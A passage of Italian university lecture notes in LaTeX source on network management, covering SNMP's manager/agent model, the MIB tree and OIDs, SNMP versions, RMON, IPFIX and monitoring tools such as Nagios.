I principi di base sono il \textit{Separation of Concerns} (non duplicare le funzionalità) e l'\textit{Information Hiding} (non esporre l'implementazione, ma solo un servizio). Tra le diverse aree ISO/OSI devono esserci dei SAP (o equivalenti), ovvero semantiche e sintassi da rispettare; una di queste è rappresentata dai Trouble Ticket. Un \textit{Trouble Ticket} è un sistema (qualsiasi) che tiene traccia dei problemi, del loro stato, delle azioni per risolverli e delle deleghe relative al soggetto che ha in carico il problema stesso. È molto importante tenere presente che le aree ISO/OSI \textit{non sono layer di comunicazione} e non si programmano: servono per far lavorare gruppi di persone. Come protocollo si utilizza invece \text{SNMP} (Simple Network Management Protocol), che rappresenta uno dei possibili modi con cui gestire la rete e serve ad interrogare un elemento della rete da un server (il Network Manager).
\begin{figure}[htbp]
	\centering
	\includegraphics[scale = 0.55]{images/SNMP}
	\caption{Organizzazione di SNMP.}
	\label{img:SNMP}
\end{figure}\\
In Figura \ref{img:SNMP} è rappresentato il funzionamento di SNMP. In pratica, si opera direttamente sugli elementi \textit{attivi} ed indirettamente sugli elementi \textit{passivi}. La piattaforma di gestione (NMS) raccoglie i dati e agisce sui Network Elements (anche indirettamente). I principali elementi di un sistema di gestione di rete sono: il Network Element da gestire, il Network Management System (stazione di gestione), ed un protocollo di gestione. Nelle WAN i Network Elements sono: nodo Frame Relay o ATM, commutatore SDH, sistema optoelettronico per comunicazioni in fibra ottica, router IP di dorsale, collegamento punto-punto in fibra, etc. In una LAN, invece: server di mail, Web, FTP, stampanti, switch, Access Point per WLAN, database, pc uffici, centraline telefoniche/VoIP, etc. Servirebbe però un livello di \textit{astrazione} per uniformare in qualche modo gli elementi della rete. Dunque, il colloquio tra NMS e Network Element si svolge tra un processo \textquotedblleft Agent" sul Network Element ed un processo \textquotedblleft Manager" sul NMS, come illustrato in Figura \ref{img:SNMP-abstraction}.
\begin{figure}[htbp]
	\centering
	\includegraphics[scale = 0.55]{images/SNMP-abstraction}
	\caption{Paradigma Manager/Agent.}
	\label{img:SNMP-abstraction}
\end{figure}
Manager ed Agent colloquiano usando un protocollo di gestione (e.g. SNMP). Manager ed Agent sono due processi software che implementano \textit{oggetti logici}. Ciascun Network Element non è visto come un oggetto reale, ma come una rappresentazione logica di funzionalità, ossia un'astrazione. Questo permette di gestire diversi elementi \textquotedblleft diversi", ma che assolvono alle stesse funzioni (e.g. un wireless access point e un terabit router). Vi sono quindi due importanti parti: il \textit{protocollo di comunicazione} ed il \textit{sistema di rappresentazione logica}.\\
Il \textit{Management Information Base (MIB)} è il sistema attraverso cui si ha la rappresentazione logica degli oggetti gestiti nel database, organizzato come una \textquotedblleft directory" con struttura ad albero. Le variabili del MIB rappresentano gli attributi degli oggetti, che ne determinano lo stato, come ad esempio il massimo bit-rate di un'interfaccia, il numero di pacchetti in coda, etc. Sia il NMS che l'Agent condividono la conoscenza del MIB. Si noti che il MIB non è un database, ma un Information Base. La \textquotedblleft conoscenza" è relativa alla struttura e non al contenuto. In Figura \ref{img:SNMP-complete} è riportato lo schema completo del paradigma Manager/Agent.
\begin{figure}[htbp]
	\centering
	\includegraphics[scale = 0.45]{images/SNMP-complete}
	\caption{Paradigma Manager/Agent.}
	\label{img:SNMP-complete}
\end{figure}\\
Quindi, sostanzialmente, il MIB ha un'organizzazione ad albero, è contenuto nel processo Agent e contiene le variabili relative al Network Element gestito. Il Manager conosce la struttura ad albero del MIB, e la \textquotedblleft naviga" mediante i messaggi SNMP di request; il MIB deriva da una struttura logica ad albero più generale, l'albero delle registrazioni ISO.
\begin{figure}[htbp]
	\centering
	\includegraphics[scale = 0.55]{images/MIB-example}
	\caption{Esempio di Management Information Base.}
	\label{img:MIB-example}
\end{figure}\\
Si consideri l'esempio di MIB riportato in Figura \ref{img:MIB-example}. Chiamiamo con il termine \textit{registration tree} una directory di standard. Un elemento è identificato dal suo \textit{Object Identifier (OID)}, ossia la sequenza dei rami per raggiungerlo partendo dalla radice. Ad esempio, Internet OID $:= \{$iso org(3) dod(6) 1$\}$, oppure 1.3.6.1 (in formato numerico), oppure iso.org.dod.1 (in formato simbolico). I MIB SNMP sono estensioni dell'albero delle registrazioni. Il \textquotedblleft MIB name" è l'OID che indica la radice del sotto-albero che contiene il MIB. Ad esempio, \texttt{iso.org.dod.internet.management.mib-2} (1.3.6.1.2.1) è l'identificatore del MIB standard definito per gestire apparati TCP/IP. Sostanzialmente i dati del MIB sono memorizzati nelle foglie dell'albero ed i nodi interni del MIB rappresentano raggruppamenti logici di oggetti. Le entità multi-istanza vengono memorizzate sotto forma di tabelle. Dunque abbiamo delle \textit{variabili scalari}, che hanno un solo valore possibile, e delle \textit{tabelle}, che descrivono oggetti presenti in più istanze, come interfacce, connessioni, etc. Ogni colonna contiene tutti i valori di un attributo per le diverse istanze.
\begin{figure}[htbp]
	\centering
	\includegraphics[scale = 0.55]{images/mib-2}
	\caption{Gerarchia di \texttt{mib-2}.}
	\label{img:mib-2}
\end{figure}\\
\texttt{mib-2} (RFC 1213) si occupa della gestione di apparati IP. Inizialmente furono definiti 10 gruppi per 171 \textquotedblleft classi" di oggetti gestiti. Come è possibile notare dalla Figura \ref{img:mib-2} i gruppi obbligatori sono: system, interfaces, IP, ICMP, SNMP. L'implementazione dei gruppi rimanenti è legata al tipo di dispositivo.\\
Il gruppo \texttt{system} (1.3.6.1.2.1.1) contiene le informazioni principali che fanno riferimento all'intero sistema: sysDescr (1), sysObjectID (2), sysUpTime (3), sysContact (4), sysName (5), sysLocation (6), sysServices (7). Il gruppo \texttt{interfaces} (1.3.6.1.2.1.2) contiene le informazioni principali sulle interfacce: ifNumber (1), ifTable (2) e tutte le opzioni e le operazioni relative alle entry di una tabella. Il gruppo \texttt{ip} contiene le informazioni principali sul livello IP.
\begin{figure}[htbp]
	\centering
	\includegraphics[scale = 0.55]{images/mib-extensions}
	\caption{Estensione di MIB.}
	\label{img:mib-extensions}
\end{figure}\\
Il MIB non è chiuso: molti pensano erroneamente che sia difficile da estendere. Infatti, come riportato in Figura \ref{img:mib-extensions}, il MIB si può estendere sotto 1.3.6.1.4.1.xx (ibm, cisco, sun, at\%t, etc.). Inoltre, se il MIB vuole rappresentare come identificare gli oggetti logici, l'SNMP è il protocollo con il quale il Manager e l'Agent comunicano e lavora su UDP. Le primitive SNMP (v2c e v3) sono molto semplici; queste si distinguono nelle primitive \textit{Manager to Agent}
\begin{itemize}
	\item GetRequest (reply: Response)
	\item GetNextRequest (reply: Response)
	\item GetBulkRequest (reply: Response * n)
	\item SetRequest (reply: Response)
\end{itemize}
e \textit{Agent to Manager}
\begin{itemize}
	\item SNMPv2-Trap
	\item InformRequest (reply: Response)
\end{itemize}
Vediamo adesso le versioni di SNMP.
\begin{itemize}
	\item \textbf{SNMPv1}. È incompatibile con le versioni successive e mancano \textit{GetBulkRequest} e \textit{InformRequest} (molto lento). Da evitare.
	\item \textbf{SNMPv2c}. È compatibile con SNMPv3, ma l'autenticazione è debolissima e la privacy è assente. L'autenticazione viene effettuata tramite la conoscenza di una \textit{community}; la community è trasmessa in chiaro ed identifica i permessi \textit{read} e \textit{write}. Da usare solo per \textit{get} (lettura), mai per \textit{set} (scrittura).
	\item \textbf{SNMPv3}. È usabile e \textquotedblleft sicuro" ed è molto più complicato rispetto all'autenticazione ed alla privacy. Dalla documentazione CISCO:
	\begin{itemize}
		\item Ogni utente appartiene ad un gruppo.
		\item Un gruppo definisce le politiche di accesso per un insieme di utenti. Una politica di accesso identifica ciò che gli oggetti SNMP rendono accessibile per lettura, scrittura o creazione.
		\item Un gruppo determina una lista di notifiche che i suoi utenti possono ricevere.
		\item Un gruppo definisce inoltre il modello ed il livello di sicurezza per i suoi utenti.
	\end{itemize}
\end{itemize}
Si consideri la Figura \ref{img:SNMP-role}. SNMP permette la comunicazione, ma le Management Apps comunicano End-to-End. Diventa dunque importante l'API tra SNMP Manager e le applicazioni tra l'Agent e la strumentazione.
\begin{figure}[htbp]
	\centering
	\includegraphics[scale = 0.55]{images/SNMP-role}
	\caption{Ruolo di SNMP.}
	\label{img:SNMP-role}
\end{figure}\\
Non sempre si hanno apparati che rispondono a SNMP: potremmo avere che il NMS si trova in una condizione in cui vi è un'interfaccia con una rete SNMP ed un'interfaccia con un'altra rete (e.g. ATM). La soluzione è quella di fare un proxy o delle traslazioni di protocollo.
\begin{figure}[htbp]
	\centering
	\includegraphics[scale = 0.55]{images/multiprotocol}
	\caption{Conversione da SNMP a protocollo X.}
	\label{img:multiprotocol}
\end{figure}\\
In Figura \ref{img:multiprotocol} è rappresentata la traslazione da un protocollo qualsiasi a SNMP. Se il protocollo X è di tipo Request/Response, allora serve un proxy; se il protocollo non è di tipo Request/Response, allora serve un gateway. I Proxy costano moltissimo, ma risolvono il problema dell'avere Manager differenti.
\begin{figure}[htbp]
	\centering
	\includegraphics[scale = 0.55]{images/Ideal-Network-Management-System}
	\caption{Network Management System ideale.}
	\label{img:Ideal-Network-Management-System}
\end{figure}\\
In Figura \ref{img:Ideal-Network-Management-System} è riportato un Network Management System ideale. Ai livelli più bassi abbiamo i Servizi di Comunicazione: gli strati fisici e quelli di trasporto; nella parte sinistra abbiamo quelli SNMP, nella parte destra quelli del protocollo X col quale vogliamo interfacciarci. Gli strati fisici e quelli di trasporto possono essere benissimo diversi. Sopra ancora abbiamo i Manager SNMP ed un altro Manager qualsiasi. Questi servizi obbediranno a due macro-aree: Eventi in Polling (updates, interrogazioni periodiche) e gli Eventi di Allarme (eventi unsolicited). Questi due oggetti comunicano, tramite delle API, con un Information Model (simile al MIB, ma molto più esteso -- e.g. notifica un router guasto), dei Servizi di Presentazione (e.g. plot di grafici) e delle Applicazioni che automatizzano il tutto. Una Network Management Platform dovrebbe separare il livello di Comunicazione (SNMP o altro) da quello di Applicazione (automatica, console, etc.).

L'SNMP ha alcune limitazioni: i dati sono relativi ad un \textit{istante} ben preciso e l'overhead limita la risoluzione temporale del sampling (polling period). Per ovviare a questo problema si ricorre ad un altro sistema: \textbf{RMON (Remote MONitoring)}, che permette di collezionare, processare e fornire dati storici. RMON effettua l'analisi dei primi due livelli della pila OSI ed RMON 2 (RFC 2021), usato attualmente, è un'ulteriore estensione che effettua:
\begin{itemize}
	\item Un'analisi dei livelli più alti (fino al livello applicativo).
	\item Il miglioramento delle capacità di filtraggio dei pacchetti.
	\item Il miglioramento delle funzionalità in ambiente Multi-Manager.
	\item Il miglioramento delle capacità di elaborazione locale dei dati sull'agente.
\end{itemize}
RMON si \textquotedblleft interroga" tramite un MIB particolare con SNMP. Altri tools per l'analisi di reti sono: PING, Traceroute, mtr (traceroute + ping), ICMP, IPFIX, etc. \textit{IPFIX (Internet Protocol Flow Information eXport)} (RFC 5101) è un protocollo \textit{push} che deriva da NetFlow v9 (Cisco). In pratica la \textit{probe} analizza il traffico ed invia i dati ad un Collector tramite IPFIX. Dall'RFC: \textquotedblleft \textit{IPFIX considers a flow to be any number of packets observed in a specific timeslot and sharing a number of properties}". Altri strumenti, Network Management Systems, che permettono di fare Network Management sono:
\begin{itemize}
	\item \textbf{Nagios}. \textquotedblleft \textit{Nagios is a powerful monitoring system that enables organizations to identify and resolve IT infrastructure problems before they affect critical business processes.}"
	\item \textbf{OpenNMS}. \textquotedblleft \textit{OpenNMS is the world's first enterprise grade network management application platform developed under the open source model.}"
	\item \textbf{Cacti}. \textquotedblleft \textit{Cacti is a complete network graphing solution designed to harness the power of RRDTool's data storage and graphing functionality.}"
	\item \textbf{Zenoss}. \textquotedblleft \textit{Zenoss assures IT service delivery to applications, business services and real-time physical, virtual, and cloud-based infrastructures.}"
\end{itemize}
È importante controllare sempre che: sia supportato l'uso di Trouble Tickets, sia possibile definire utenti con privilegi diversi (Aree ISO/OSI) e che non sia un tool \textquotedblleft over-engineered" (cerca di far tutto, facendolo male). È comunque molto importante utilizzare sempre il terminale.

L'aspetto più complicato nel Network Management è il fattore umano: è difficile insegnare a lavorare alle persone, soprattutto sotto stress; è importante avere un metodo con cui affrontare le cose (considerazione personale del Prof. Pecorella).
%\include{files/chapter8}

\end{document}